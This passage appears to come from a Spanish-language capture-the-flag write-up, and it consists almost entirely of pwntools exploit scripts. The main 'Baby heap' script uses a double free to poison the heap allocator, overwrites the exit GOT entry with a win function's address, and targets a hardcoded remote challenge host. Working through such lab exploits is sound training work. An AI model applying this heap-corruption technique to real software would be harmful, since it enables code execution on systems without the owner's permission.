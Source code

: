 ```python
sleep(1)
r.send(b"\x8c")
#========= interactive ====================
r.interactive()
```
# Baby heap

Baby heap, era un baby heap.

```python
#!/usr/bin/python3
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./bin')
context.terminal = ['tmux', 'splitw', '-hp', '70']
def start():
    if args.GDB:
        return gdb.debug('./bin', gdbscript=gs)
    if args.REMOTE:
        return remote('165.227.92.222', 4455)
    else:
        return process('./bin')
r = start()
index = 0
def allocate(size, data):
    global index
    index += 1
    r.sendline(b"1")
    r.sendlineafter(b"size :", str(size))
    r.sendlineafter(b"data :", data)
    r.recvuntil(b">")
    return index - 1
def delete(index):
    r.sendline(b"2")
    r.sendlineafter(b"index :", str(index))
    r.recvuntil(b">")
#========= exploit here ===================
a = allocate(0x18, b"AAAAA")
b = allocate(0x18, b"BBBBB")
delete(a)
delete(a)
#print(hex(elf.sym.win))
#
allocate(0x18, p64(0x404070)) #exit en got
#sleep(0.5)
allocate(0x18, b"AAAAA" )
#sleep(0.5)
allocate(0x18, p64(0x401296))
r.sendline(b"3")
#========= interactive ====================
r.interactive()
```
# Hope
